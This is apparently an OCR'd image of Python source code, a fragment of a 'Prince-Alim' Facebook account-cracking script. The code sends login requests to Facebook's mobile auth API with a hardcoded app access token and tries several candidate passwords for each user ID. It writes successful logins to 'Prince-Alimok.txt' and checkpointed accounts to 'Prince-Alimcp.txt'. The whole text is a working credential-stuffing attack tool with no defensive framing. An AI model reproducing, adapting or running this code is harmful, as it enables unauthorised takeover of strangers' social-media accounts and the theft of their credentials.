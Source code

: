 											data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass5+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
											q = json.loads(data)
											if "access_token" in q:
												print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass5+"\033[0;97m")
												ok = open("Prince-Alimok.txt", "a")
												ok.write(uid+"|"+pass5+"\n")
												ok.close()
												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in q["error_msg"]:
													print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass5+"\033[0;97m")
													cp = open("Prince-Alimcp.txt", "a")
													cp.write(uid+"|"+pass5+"\n")
													cp.close()
													cps.append(uid+pass5)
												else:
													data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass6+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
													q = json.loads(data)
													if "access_token" in q:
														print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass6+"\033[0;97m")
														ok = open("Prince-Alimok.txt", "a")
														ok.write(uid+"|"+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in q["error_msg"]:
															print(" \033[1;28m [Prince-Alim-CP] "+uid+" | "+pass6+"\033[0;97m")
															cp = open("Prince-Alimcp.txt", "a")
															cp.write(uid+"|"+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass7+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
															q = json.loads(data)
															if "access_token" in q:
																print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass7+"\033[0;97m")
																ok = open("Prince-Alimok.txt", "a")
																ok.write(uid+"|"+pass7+"\n")
																ok.close()
																oks.append(uid+pass7)
															else:
																if "www.facebook.com" in q["error_msg"]:
																	print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass7+"\033[0;97m")
																	cp = open("Prince-Alimcp.txt", "a")
																	cp.write(uid+"|"+pass7+"\n")
																	cp.close()
																	cps.append(uid+pass7)
		except:
			pass